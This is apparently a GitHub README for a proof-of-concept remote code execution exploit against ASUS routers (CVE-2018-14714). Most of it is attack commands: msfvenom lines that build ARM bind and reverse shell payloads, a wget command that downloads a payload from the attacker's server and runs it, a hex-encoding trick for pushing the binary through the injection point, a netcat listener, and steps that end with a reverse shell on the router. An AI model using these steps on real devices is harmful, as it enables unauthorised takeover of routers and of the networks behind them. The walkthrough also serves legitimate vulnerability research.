




# CVE-2018-14714 RCE exploit
*ASUS wifi router RCE vulnerability*

**This PoC is for learning and research purposes only. Do not use it for illegal activities; you are solely responsible for any legal consequences.**

* This is a test conducted after code modifications based on this PoC, as the original PoC might have failed due to lacking root permissions.
  * https://github.com/sunn1day/CVE-2018-14714-POC


**In the demonstration below, the tested device model is an ASUS RT-N18U, a router I purchased during my university years. It is now my test machine :)**


## Vulnerability PoC
* Exploitation conditions
  * Accounts and passwords that can be used to log in.
  * The target has not been updated to a version with the patched vulnerabilities (below version 3.0.0.4.384.32738 or 3.0.0.4.384.45149).

* You need to install the dependencies:
  * `$ python3 -m pip install requests`

Run the script directly to get usage instructions. You can run the command below to verify if the target is vulnerable.

`$ python3 CVE-2018-14714-RCE_PoC.py <target> <user> <password>`




## Shell
You can use `msfvenom` command to generate a lightweight reverse shell binary executable. You can modify the parameters according to the kernel environment you are working with. In my case, it's armv7l, and the command is as follows:

* Bind shell
  
  `$ msfvenom -p linux/armle/shell_bind_tcp LPORT=4444 -f elf -o pwn.elf`

  

* Reverse shell
  
  `$ msfvenom -p linux/armle/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf -o pwn.elf`

  

If your device has the `wget` command available, after you start listening on port 4444, you can use the following command in a pseudo-shell to obtain a reverse shell:

`shell> cd /tmp && wget http://YourServer/pwn.elf -O pwn.elf && chmod +x ./pwn.elf && ./pwn.elf`

## Preliminary steps
Convert the generated binary file into binary data.
```=
$ for i in `cat pwn.elf | xxd -p`;do echo -n $i;done

$ python3 -c 'a=input("binary data:");print("echo -ne \"",end="");print(*[f"\\x{a[i:i+2]}" for i in range(0,len(a),2)],sep="",end="");print("\"")'
```


## How to execute?
To confirm the existence of a vulnerability on the target, rerun the Python script with the added shell parameters to enter an interactive pseudo-shell. Please note that it is normal if commands do not produce any output, as there is no place to receive stdout. However, using the `sleep` command can help you verify that the commands have indeed been executed.




Additionally, it is important to note that, based on testing, the command line allows a maximum of 1022 characters. You need to construct commands that are less than 1022 characters in length.
Therefore, you will need to manually split the payload and execute it in parts to ensure our command runs successfully.




* Next, let's obtain a real reverse shell. You can start by listening on the specified port.

  `$ nc -lvnp 4444`

* Execute the Python PoC script to obtain a pseudo-shell for injecting the payload.

  `$ python3 CVE-2018-14714-RCE_PoC.py admin admin shell`
  
  

* Finally, all that's left is to enjoy your acquired reverse shell :)

  

